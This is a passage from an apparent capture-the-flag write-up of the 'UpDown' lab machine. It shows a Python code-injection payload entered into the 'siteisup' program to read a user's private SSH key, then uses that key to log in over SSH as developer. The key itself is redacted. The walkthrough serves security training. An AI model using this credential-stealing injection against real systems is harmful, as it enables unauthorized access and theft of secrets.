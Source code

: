 ```bash
:*3$"                                                                                                              
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0                                                                         
crtstuff.c                                                                                                         
deregister_tm_clones                                                                                               
__do_global_dtors_aux
```
{: .nolineno }

Here is how to exploit this code injection.

```bash
www-data@updown:/home/developer/dev$ ./siteisup                                                                    
./siteisup                                                                                                         
Welcome to 'siteisup.htb' application                                                                              
                                                                                                                   
Enter URL here:__import__('os').system('cat /home/developer/.ssh/id_rsa')                                          
__import__('os').system('cat /home/developer/.ssh/id_rsa')                                                         
-----BEGIN OPENSSH PRIVATE KEY-----
						SSH KEY
-----END OPENSSH PRIVATE KEY-----
```
{: .nolineno }

With this key we can ssh to the victim as developer.

```bash
➜  ssh developer@siteisup.htb -i ssh-key2                                                            
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-122-generic x86_64)                                                 
                                                                                                                   
 * Documentation:  https://help.ubuntu.com                                                                         
 * Management:     https://landscape.canonical.com                                                                 
 * Support:        https://ubuntu.com/advantage                                                                    
                                                                                                                   
  System information as of Sun Dec 25 15:06:59 UTC 2022                                                            
                                                                                                                   
  System load:           0.0                                                                                       
  Usage of /:            50.0% of 2.84GB                                                                           
  Memory usage:          15%                                                                                       
  Swap usage:            0%                                                                                        
  Processes:             225                                                                                       
  Users logged in:       0                                                                                         
  IPv4 address for eth0: 10.10.11.177                                                                              
```